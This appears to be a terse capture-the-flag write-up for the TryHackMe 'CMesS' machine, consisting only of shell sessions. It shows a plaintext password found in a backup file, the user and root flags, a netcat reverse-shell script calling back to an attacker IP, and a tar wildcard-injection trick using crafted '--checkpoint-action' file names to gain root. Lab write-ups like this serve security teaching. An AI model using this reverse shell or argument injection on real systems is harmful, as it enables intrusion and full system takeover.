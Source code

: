 ```bash

mysql> 
```


```bash
www-data@cmess:/$ cd opt
www-data@cmess:/opt$ ls
www-data@cmess:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 22 root root 4096 Feb  6  2020 ..
-rwxrwxrwx  1 root root   36 Feb  6  2020 .password.bak
www-data@cmess:/opt$ cat .password.bak
andres backup password
UQfsdCB7aAP6
www-data@cmess:/opt$ 
```

```bash
andre@cmess:~$ cat user.txt
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
andre@cmess:~$
```

```bash
andre@cmess:~$ cd backup
andre@cmess:~/backup$ ls
note
andre@cmess:~/backup$ cat note
Note to self.
Anything in here will be backed up! 
andre@cmess:~/backup$ 
```


```bash
andre@cmess:~/backup$ cat > /home/andre/backup/rev << EOF
> #!/bin/bash
> rm /tmp/f
> mkfifo /tmp/f
> cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.168.117 1337 >/tmp/f
> EOF
```

```bash
~/CMesS# nc -nlvp 1337
Listening on 0.0.0.0 1337
```


```bash
andre@cmess:~/backup$echo "" > "/home/andre/backup/--checkpoint=1"
echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rev"
```


```bash
~/CMesS# nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.10.31.7 58726
/bin/sh: 0: can't access tty; job control turned off
# ls /root
root.txt
# cat /root/root.txt
thm{9f85b7fdeb2cf96985bf5761a93546a2}
# 
```
